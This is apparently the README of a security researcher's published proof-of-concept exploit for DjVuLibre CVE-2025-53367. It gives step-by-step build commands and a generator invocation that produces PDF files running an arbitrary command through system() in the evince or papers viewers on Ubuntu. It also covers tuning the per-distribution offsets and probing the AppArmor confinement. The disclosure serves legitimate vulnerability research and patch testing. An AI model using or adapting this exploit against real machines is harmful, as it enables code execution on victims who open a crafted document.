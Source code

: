 # Proof of concept for DjVuLibre CVE-2025-53367

This poc uses CVE-2025-53367 to achieve code execution in the
default PDF viewer on many Linux distributions:
[evince](https://gitlab.gnome.org/GNOME/evince) or
[papers](https://gitlab.gnome.org/GNOME/papers).

Because the DjVuLibre file format is quite complicated, it was
easiest to create the poc by reusing the DjVuLibre codebase,
and modifying one of its tools to generate the poc file. So to
build the poc, you need to clone the official DjVuLibre repo
and then apply a patch:

```bash
git clone https://git.code.sf.net/p/djvu/djvulibre-git DjVuLibre-poc-CVE-2025-53367
cd DjVuLibre-poc-CVE-2025-53367
git checkout 4a285e8da5cd9a2a6b296242a952ee96e519280d
git apply ../DjVuLibre-poc-CVE-2025-53367.diff
```

Build it like this:

```bash
./autogen.sh --prefix=`pwd`/install
make install
```

Now generate the poc file like this:

```bash
./install/bin/c44 0x1010 0x4770 "google-chrome https://www.youtube.com/watch?v=dQw4w9WgXcQ" plucky.pdf  # Ubuntu 25.04
./install/bin/c44 0x1010 0x4360 "google-chrome https://www.youtube.com/watch?v=dQw4w9WgXcQ" noble.pdf   # Ubuntu 24.04
```

The first two parameters are offsets that need to be tuned for
different Linux distributions. The first is the distance between two
pointers in `libdjvulibre.so` and the second is the distance between
two pointers in `libc.so`. The third parameter is the command string
that will be passed to `system()`. Note that evince/papers run under
an [AppArmor](https://apparmor.net/) profile which will block some
commands. It's not super-restrictive, so there are ways of getting
past it. You can use the `aa-exec` tool to experiment with what's
possible:

```bash
aa-exec -d -v -p /usr/bin/papers /bin/bash -c "echo 1337 > ~/pwned.txt"
```

## Original fuzzer-generated poc

We published this (much simpler) version of the poc sooner, to help
people quickly test whether they're running a vulnerable version of
DjVuLibre.This poc only causes the DjVuLibre library to crash.

[Fuzzer-generated poc file](./fuzzer-poc.djvu)

## Links:

* https://github.blog/security/vulnerability-research/cve-2025-53367-an-exploitable-out-of-bounds-write-in-djvulibre/
* https://www.openwall.com/lists/oss-security/2025/07/03/1
* https://securitylab.github.com/advisories/GHSL-2025-055_DjVuLibre/
* https://github.com/kevinbackhouse/DjVuLibre-poc-CVE-2025-53367 (this same poc in a standalone git repo)
